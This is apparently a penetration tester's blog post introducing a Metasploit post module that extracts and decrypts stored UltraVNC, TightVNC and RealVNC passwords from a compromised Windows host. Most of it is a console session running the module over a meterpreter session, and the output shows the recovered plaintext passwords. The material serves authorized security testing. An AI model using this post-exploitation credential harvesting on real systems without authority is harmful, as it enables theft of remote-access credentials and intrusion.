 = Metasploit VNC Password Extraction
:hp-tags: vnc, meterpreter, scripting

[Chris Gates wrote a blog post](http://carnal0wnage.blogspot.com/2011/03/vnc-passwords-and-metasploit-and-des.html) about the 'getvncpw' meterpreter script. I ran into the same issue on Penetration Tests in the past but didn't know much about the wacked out version of DES that RFB (the VNC protocol) was using. Not being a fan of manually editing a binary and compiling each time I had a password to crack I wanted to find another way, but didn't get a chance to.

Yesterday I saw this ticket: [https://www.metasploit.com/redmine/issues/3183](https://www.metasploit.com/redmine/issues/3183) and thought to myself: "Thats definitely within my coding ability to contribute a patch for". After almost 15 hours of coding between 9 pm on Saturday and 8 pm on Sunday. It went far and beyond just adding in a bit of code to support UltraVNC.

changelog:

* Complete rewrite as a post module instead of a meterpreter script
* Passwords of less than 8 characters are correctly padded ([thanks jduck](https://www.metasploit.com/redmine/projects/framework/repository/revisions/12033))
* UltraVNC checks added
* TightVNC checks added for both VNC and it's control console
* Made it very simple to add new checks in either the registry or in a file
* Output is a bit more verbose (lets you know something is happening
* Reports authentication credentials found to database
* Identifies the port that VNC is running on as well

It isn't in the metasploit trunk so until/if if gets added you can get it here:

[enum_vnc_pw.rb](https://gist.github.com/mubix/8215705)

If you have a check, find it breaks for some reason or another, or just want to tell me that I suck, please leave a comment or email me.

Here it is in action against my VM with 3 different VNC servers on it (calling the post module in two separate ways) :

```    
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: XPBASELINEAdministrator
meterpreter > background
msf exploit(handler) > use post/windows/gather/enum_vnc_pw 
msf post(enum_vnc_pw) > set SESSION 1
SESSION => 1
msf post(enum_vnc_pw) > show options

Module options (post/windows/gather/enum_vnc_pw):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf post(enum_vnc_pw) > run

[*] Enumerating VNC passwords on XPBASELINE
[*] Checking UltraVNC...
[+] UltraVNC => A85B4C5976979DE93B => thisismy on port: 5900
[+] VIEW ONLY: UltraVNC => DE2C1BA7393F6708B3 => 111 on port: 5900
[*] Checking WinVNC3_HKLM...
[*] Checking WinVNC3_HKCU...
[*] Checking WinVNC3_HKLM_Default...
[*] Checking WinVNC3_HKCU_Default...
[*] Checking WinVNC_HKLM_Default...
[*] Checking WinVNC_HKCU_Default...
[*] Checking WinVNC4_HKLM...
[+] WinVNC4_HKLM => c777b2de337a91cf => mypasswo on port: 5900
[*] Checking WinVNC4_HKCU...
[*] Checking RealVNC_HKLM...
[*] Checking RealVNC_HKCU...
[*] Checking TightVNC_HKLM...
[+] TightVNC_HKLM => 7ebf1e76f732459f => authpass on port: 5900
[*] Checking TightVNC_HKLM_Control_pass...
[+] TightVNC_HKLM_Control_pass => f0299fd0e927cf2f => adminpas on port: 5900
[*] Post module execution completed

msf post(enum_vnc_pw) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > run post/windows/gather/enum_vnc_pw 

[*] Enumerating VNC passwords on XPBASELINE
[*] Checking UltraVNC...
[+] UltraVNC => A85B4C5976979DE93B => thisismy on port: 5900
[+] VIEW ONLY: UltraVNC => DE2C1BA7393F6708B3 => 111 on port: 5900
[*] Checking WinVNC3_HKLM...
[*] Checking WinVNC3_HKCU...
[*] Checking WinVNC3_HKLM_Default...
[*] Checking WinVNC3_HKCU_Default...
[*] Checking WinVNC_HKLM_Default...
[*] Checking WinVNC_HKCU_Default...
[*] Checking WinVNC4_HKLM...
[+] WinVNC4_HKLM => c777b2de337a91cf => mypasswo on port: 5900
[*] Checking WinVNC4_HKCU...
[*] Checking RealVNC_HKLM...
[*] Checking RealVNC_HKCU...
[*] Checking TightVNC_HKLM...
[+] TightVNC_HKLM => 7ebf1e76f732459f => authpass on port: 5900
[*] Checking TightVNC_HKLM_Control_pass...
[+] TightVNC_HKLM_Control_pass => f0299fd0e927cf2f => adminpas on port: 5900
meterpreter > 
```







  

